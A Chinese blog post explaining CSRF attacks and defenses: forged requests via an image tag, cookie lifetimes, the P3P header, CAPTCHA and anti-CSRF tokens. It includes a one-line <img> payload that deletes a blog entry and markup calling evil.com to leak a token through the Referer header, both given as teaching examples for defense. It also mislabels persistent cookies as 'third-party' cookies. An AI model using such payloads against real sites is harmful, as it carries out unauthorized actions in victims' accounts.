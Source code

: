 ```yaml
---
title: Web安全系列——CSRF攻击
date: 2017-11-17 09:32:54
categories: Web安全
---
```


## CSRF简介
CSRF全称为Cross Site Request Forgery，翻译成中文是跨站点请求伪造，是攻击者通过伪装受信任的用户，来想网站发起请求的的一种恶意攻击。听起来很像XSS攻击，但是又与XSS攻击有着本质的不同。可以通过一个简单的例子了解CSRF攻击。  
<!-- more -->  

某个博客网站只需要在登录后，请求这个URL，即可删除编号为“2345”的博客。  

```
	http://blog.sohu.com/manage/entry.do?m=delete&id=2345
```

那么，这个URL就存在CSRF漏洞，可以被攻击者进行利用。攻击者在自己的网站中，插入一张图片，代码为

```
	<img src="http://blog.sohu.com/manage/entry.do?m=delete&id=2345" />
```

使`<img>`标签指向删除博客的URL,即可以删除该博客。  

## CSRF攻击与Cookie
虽然不利用Cookie也能进行CSRF攻击，但是绝大部分破坏力强的CSRF攻击离不开对Cookie的利用。  

浏览器的Cookie分为**两种**：一种是"Session Cookie",又称为”临时Cookie“，另一种是"Third-party Cookie",也成为”本地Cookie“。
两者的区别在于Cookie的**失效时间**。Session Cookie在浏览器关闭后，Session Cookie便马上失效。而Third-party Cookie在Set-Cookie的时候，指定了Expire时间，只有到过了Exipire的时间后，Third-party Session才会失效。  

显然，对于攻击者来说，Third-party Cookie比Session Cookie更加容易利用，从而进行CSRF攻击。因为，Third-party Cookie的有效时间更长，用户访问某个网站后，获取Third-party Cookie,那么在Third-party Cookie失效之前，用户都有遭受CSRF攻击的风险。  

而Session Cookie一般是存放在浏览器的内存中，浏览器关闭就自动失效。攻击者要利用Session Cookie进行攻击的话，还需要先诱使用户访问目标网站，是Session有效，才能进行下一步攻击。  
## 进一步探究Cookie
因为第三方Cookie容易被黑客利用，所以一些浏览器会拦截第三方Cookie的发送，如Edge:
![Edge浏览器中的Cookie设置](https://wx1.sinaimg.cn/mw690/857afa84gy1fll5gmzshwj20a00bl0sy.jpg)

这在某种程度上加大了CSRF攻击的难度。然而P3P Header又使浏览器可以发送第三方Cookie了。  

> P3P Header是W3C制定的关于隐私的标准。  

如在Set-Cookie的时候加上P3P头，那即使浏览器禁止发送第三方Cookie，第三方Cookie也会被发送。因此，对于CSRF的防御不能仅仅依赖浏览器对第三方Cookie的拦截。
## CSRF的防御
CSRF是一种难以识别的攻击，对于CSRF的防御可以采取以下措施。
### 验证码
CSRF攻击是伪造成用户的身份，自动发起恶意的请求。那么我们可以强迫攻击者与我们的网站进行交互。在一些操作之前加入验证码校验，可以抵御一部分的CSRF攻击。但是加入验证码会影响用户的体验，所以验证码不能作为主要的防御手段。
### Anti CSRF Token
CSRF攻击的原理，是攻击者伪装成用户身份，发起恶意请求。那么攻击者除了要伪装成功，还需要“猜”出请求的参数。那么如果我们在请求中，加入一个随机的Token，攻击者就永远没有办法”猜“出恶意请求的参数了，这就是Anti CSRF Token。  
Token参数最好放在一个表单中，而不是放在URL里面。比如以下URL。
  
```
	http://host/path/manage?username=abc&token=[random]
```

因为攻击者可以在当前页面植入恶意的脚本如：

```
<img src="http://evil.com/notexist">
```

则当前页面的  URL回作为HTTP请求的Refferer，发送到evil.com服务器上。因此，最好把Token放在表单中，把敏感操作由GET改为POST,这样可以增加黑客进行CSRF攻击的难度。  

一定要记住的一点是：** Anti CSRF Token 仅仅是用来防御CSRF攻击，而不能防御XSS攻击。XSS攻击必须要采用响应的防御手段。**